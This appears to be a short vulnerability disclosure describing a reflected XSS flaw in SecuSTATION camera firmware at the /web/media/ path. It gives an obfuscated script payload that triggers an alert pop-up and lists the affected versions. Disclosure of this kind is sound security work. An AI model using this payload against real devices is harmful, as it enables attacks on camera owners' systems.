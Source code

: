 # SecureSTATION Reflected XSS vulnerability exists

## Vulnerability details：

​	The path to access the vulnerable device is as follows：http://VulDevice/web/media/

![image-20241217100348501](https://raw.githubusercontent.com/kklzzcun/Camera/main/assets/1.png)

 payload：?<script/>eval(/ale/,source+/rt/,source+/(190)/. source)(/script>

![image-20241217100507713](https://raw.githubusercontent.com/kklzzcun/Camera/main/assets/2.png)

A pop-up window will appear after placing the package.

![image-20241217100543071](https://raw.githubusercontent.com/kklzzcun/Camera/main/assets/4.png)

SecuSTATION Camera V2.5.5.3116-S50-SMA-B20160811A and lower













































































